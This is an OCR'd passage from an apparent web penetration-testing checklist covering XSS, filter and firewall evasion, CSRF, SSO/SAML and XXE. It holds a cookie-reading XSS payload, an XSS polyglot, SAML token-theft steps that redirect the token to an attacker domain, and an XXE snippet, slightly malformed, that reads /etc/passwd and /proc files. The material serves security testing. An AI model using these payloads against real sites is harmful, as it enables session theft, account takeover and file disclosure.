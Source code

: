 Tag attribute value
- [ ]  Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
- [ ]  Payload to be inserted -“ onfocus=”alert(document.cookie)"

Evasion de filtros
- [ ]  < and > can be replace with html entities &lt; and &gt;
- [ ]  You can try an XSS polyglot.Eg:-javascript:/*-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>

Evasion de Firewall
- [ ]  Check if the firewall is blocking only lowercase
- [ ]  Try to break firewall regex with the new line(\r\n)
- [ ]  Try Double Encoding
- [ ]  Testing for recursive filters
- [ ]  Injecting anchor tag without whitespaces
- [ ]  Try to bypass whitespaces using Bullet
- [ ]  Try to change request method

# CSRF
- [ ]  Validation of CSRF token depends on request method
- [ ]  Validation of CSRF token depends on token being present
- [ ]  CSRF token is not tied to the user session
- [ ]  CSRF token is tied to a non-session cookie
- [ ]  Validation of Referer depends on header being present

# SSO
- [ ]  If internal.company.com Redirects You To SSO e.g. auth.company.com, Do FUZZ
On Internal.company.com
- [ ]  If company.com/internal Redirects You To SSO e.g. Google login, Try To Insert
public Before internal e.g. company.com/public/internal To Gain Access Internal
- [ ]  Try To Craft SAML Request With Token And Send It To The Server And Figure
Out How Server Interact With This
- [ ]  If There Is AssertionConsumerServiceURL In Token Request Try To Insert Your
Domain e.g. http://me.com As Value To Steal The Token
- [ ]  If There Is AssertionConsumerServiceURL In Token Request Try To Do FUZZ
On Value Of AssertionConsumerServiceURL If It Is Not Similar To Origin
- [ ]  If There Is Any UUID, Try To Change It To UUID Of Victim Attacker e.g. Email Of
Internal Employee Or Admin Account etc
- [ ]  Try To Figure Out If The Server Vulnerable To XML Signature Wrapping OR Not?
- [ ]  Try To Figure Out If The Server Checks The Identity Of The Signer OR Not?
- [ ]  Try To Inject XXE Payloads At The Top Of The SAML Response
- [ ]  Try To Inject XSLT Payloads Into The Transforms Element As A Child
Node Of The SAML Response
- [ ]  If Victim Can Accept Tokens Issued By The Same Identity Provider That Services
Attacker, So You Can Takeover Victim Account
- [ ]  While Testing SSO Try To search In Burp Suite About URLs In Cookie Header e.g.
Host=IP; If There Is Try To Change IP To Your IP To Get SSRF

#XML Injection
- [ ]  Change the content type to text/xml then insert below code. Check via repeater
```markup
<?xml version="1.0" encoding="ISO 8859 1"?>
<!DOCTYPE tushar [
<!ELEMENT tushar ANY
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///etc/hosts" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///proc/self/cmdline" >]><tushar>&xxe;</
<!ENTITY xxe SYSTEM "file:///proc/version" >]><tushar>&xxe;</
```
- [ ]  Blind XXE with out-of-band interaction
